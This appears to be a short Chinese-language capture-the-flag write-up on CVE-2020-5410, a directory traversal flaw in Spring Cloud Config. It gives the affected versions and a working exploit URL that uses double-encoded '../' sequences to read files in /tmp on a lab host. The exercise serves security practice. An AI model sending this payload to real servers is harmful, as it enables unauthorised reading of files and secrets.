

# Spring Cloud Config 目录穿越漏洞（CVE-2020-5410）by [xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持，使用 Config Server ，用户可以在所有环境中管理应用程序的外部属性。近日，百度云安全团队监测到 Spring Cloud Config 官方发布了一个目录遍历漏洞的风险通告，漏洞编号为 CVE-2020-5410 。攻击者可通过构造特殊的 HTTP 请求，从而跨目录读取文件。

## 影响版本

2.2.x<=2.2.2
2.1.x<=2.1.8

## 利用流程

访问地址： `10.10.11.20:32446`

名称：CVE-2020-5410 Spring Cloud Config 目录穿越漏洞


1执行命令查看 tmp 文件获得 flag 

```
http://10.10.11.20:32446/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development
```



通关！

## 参考

https://xz.aliyun.com/t/7877
